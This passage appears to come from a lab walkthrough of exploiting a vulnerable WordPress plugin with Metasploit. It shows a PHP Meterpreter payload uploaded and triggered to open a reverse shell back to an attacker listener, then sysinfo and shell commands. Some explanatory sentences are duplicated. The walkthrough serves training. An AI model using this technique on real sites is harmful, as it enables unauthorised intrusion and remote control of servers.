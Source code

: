 ```shell
[*] Sending stage (40004 bytes) to 10.129.12.10
[*] Meterpreter session 3 opened (10.10.16.14:4444 -> 10.129.12.10:45726) at 2025-02-26 15:07:52 -0500

meterpreter >

```

![GIF showcasing the configuration of the expected parameters by the module/exploit.](VDQPZFfISKnr.gif)

Let’s breakdown what it happening here:

1. The process kicks off with Metasploit starting a reverse TCP handler on our attacking machine (10.10.16.14:4444) to catch the incoming connection.

2. Then the automatic check confirms the plugin’s presence and vulnerability which is always a good sign we’re on the right track. An automatic check confirms the presence of the vulnerable plugin (a good sign that we're on the right track.)

3. Next, it grabs a nonce (46e27af2d1), a security token from the target, which it uses to authenticate the request. Next, it grabs a nonce (security token) from the target, `46e27af2d1`, which it uses to authenticate the request.

4. With that, it uploads a `meterpreter` payload written in PHP to the server’s `wp-content/uploads/hashform/temp/` directory as `pdylenna.php`. In other words, a payload is the piece of code that contains instructions to connect back to our attacking machine.

5. Then, it triggers the payload, executing our code on the target.

6. Finally, the Meterpreter session opens, giving us a full reverse shell from the target (10.129.12.10:45726) back to our attacking machine (10.10.16.14:4444) which means that we are in.


When the meterpreter prompt appears, we know that we've achieved initial access to the target. To confirm, we can run the command `sysinfo`, which returns information about about the current target machine. If you want to see all options that `meterpreter` offers you can use the command `help` .

```shell
meterpreter > sysinfo

Computer    : ubuntu
OS          : Linux ubuntu 5.15.0-135-generic #146-Ubuntu SMP Sat Feb 15 17:06:22 UTC 2025 x86_64
Meterpreter : php/linux

```

From here, we can use the `shell` command to tell meterpreter to execute a basic shell , where we can subsequently use system commands .

```shell
meterpreter > shell

Process 139137 created.
Channel 1 created.

```
